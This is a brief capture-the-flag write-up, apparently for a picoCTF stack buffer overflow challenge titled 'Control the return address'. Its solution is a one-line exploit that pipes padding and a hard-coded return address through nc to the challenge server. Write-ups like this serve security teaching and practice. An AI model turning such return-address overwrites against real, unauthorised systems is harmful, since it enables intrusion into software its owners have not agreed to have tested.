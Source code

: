 # Description
Control the return address
Additional details will be available after launching your challenge instance.

# Solution
```bash
(python3 -c "import sys; sys.stdout.buffer.write(b'abcdefghijklmnopqrstuvwxyzabcdefghijklmnopqr\xf6\x91\x04\x08\x0a')"; ) | nc saturn.picoctf.net 52694
```